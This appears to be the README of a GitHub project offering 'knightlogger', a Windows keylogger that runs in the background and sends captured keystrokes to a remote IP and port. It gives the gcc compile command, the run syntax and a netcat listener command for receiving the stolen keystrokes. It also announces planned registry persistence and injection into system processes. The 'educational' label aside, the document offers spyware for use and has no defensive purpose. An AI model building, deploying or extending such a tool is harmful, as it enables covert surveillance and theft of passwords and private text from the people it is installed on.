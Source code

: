 # knightlogger
a basic stable keylogger written for eductional purpose works on windows platforms
# options:
- remote access keylogger
- works in background
additional functions will be added soon like registery persistence and inject in system proccesses
# compile
`gcc -o knightlogger.exe knightlogger.cpp -lwsock32`

**easy to use**
`knightlogger.exe ipaddr portnumber`

you can listen for connection by many ways for example netcat way
`nc -lvp 4444`

**notice:** support only english main alphabet ascii characters and some other special keys but not all ,  i will add full support soon 

